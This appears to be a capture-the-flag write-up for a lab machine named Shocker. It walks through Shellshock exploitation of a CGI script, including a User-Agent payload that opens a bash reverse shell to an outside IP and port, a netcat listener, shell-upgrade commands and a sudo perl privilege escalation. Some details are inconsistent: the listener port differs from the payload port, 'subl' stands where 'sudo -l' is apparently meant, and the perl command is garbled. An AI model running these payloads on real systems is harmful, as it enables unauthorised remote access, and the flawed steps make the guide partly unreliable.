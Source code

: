 ```yaml
---
title: "Shocker Writeup"
date: "2019-03-11"
description: "Sample article showcasing basic Markdown syntax and formatting for HTML elements."
FRtags: ["markdown", "css", "html", "themes"]
FRcategories: ["themes", "syntax"]
FRseries: ["Themes Guide"]
aliases: ["migrate-from-jekyl"]
ShowToc: true
TocOpen: true
weight: 2-
---
```


```bash
# Shocker
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
-   ```
    perl -e 'exec "cat /root";'
    ```
```
#### Solving
- start off by doing an nmap scan
- after doing the nmap scan you should notice there are two ports that are shown to be opened
- the first port is 80, and the second is 2222
- port 80 is http, and is likely hosting a web page
- port 2222 is hosting ssh which is uncommon 
- after visting the web page, I see that there isnt much on it
- I will now use dirbuster ( a tool used to bruteforce directories using a wordlist )
- after using dirbuster I see that there is a directory for /cgi-bin
- CGI = (commen gateway interface)
- This file path is used to host scripts that use enviorment varibles that interact with the web browser 
- after visting the page I can see I get a error 403 which means this page exists but is forbidden
- I can use dirbuster agian to scan the directories inside ofthe directory /cgi-bin/
- in dirbuster I can specify that I want to look for a specific file type 
- in this case I am going to search for script file extensions (example: sh, py, php etc...)
- after doing this I have found a user.sh 
- When i vist the page /cgi-bin/user.sh it downloads a file for user.sh which is a short script for checking uptime or some bullshit
- I will look at the get/post request in burp suite
- I can see based off the cgi-bin that this web page may be vunerable to a shellshock attack
- shellshock is a remote code exectution vunurabity that often doesnt have comfirmation
- all that means is that you may be able to execute code on the backend server, but unless specifically using something to echo a response back you might not see anything 
- you can also see a response back though the http header response 
- in burp suite I am going to focus on the user agent parameter in the http request 
- inside of the user-agent area I am going to try and use a basic shellshock
```bash
() { :; }; echo; echo ls 
```
- now that I have been able to test that remote code execution is possible I can try to get a reverse shell through
- The reverse shell command I used is above 
- I will have to listen for the reverse shell using netcat
```bash
nc -lvnp 80 
```
- You should now be able to access the shell 
- now you have to upgrade to a more stable shell 
```bash
    # <catch reverse shell>
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # (inside the nc session) PRESS CTRL+Z to background your shell
    
    # back in your terminal enter
    stty raw -echo; fg
    # may need to hit enter a couple times
    
    # now you should be back in your reverse shell (fg, foregrounds your "backgrounded" process)
    export SHELL=/bin/bash; export TERM=screen
    
    # for this part you need to know the size of your terminal, which you can figure out by typing `stty size`, but this has to be done BEFORE you catch your reverse shell
    # once you know this, you can change "38" and "116" in the command below, and execute it in your reverse shell
    stty rows 38 columns 116; reset;
```
- now you can use subl to see what commands the current user can use with sudo permissions
- you can also check your permissions using groups to see what group your in
- you can also use "cat /etc/passwd" to see what shell your user is using 
- on this machine I can see that I am using perl so I will 
- seeing that this machine allows me to run perl with sudo permissions is a hint that perl will be my exploit
- I can use GTF-BINs to break bash 
- make sure to run the command from GTFO Bin as sudo
- This is becuase perl is one of the commands the current user is aloowed to run with sudo permissions


### upgrading shell 
- you have to use pythons pty to spawn a bash shell
- python3 -c 'import pty;pty.spawn("/bin/bash")'
- after that you will wantto background the shell (CTRL+Z)
- while in ur host machines shell you can check some information
- you can use "stty -a" to get you terminals demensions
- and "echo $TERM" to check your terminals color
- then run "stty raw -echo"
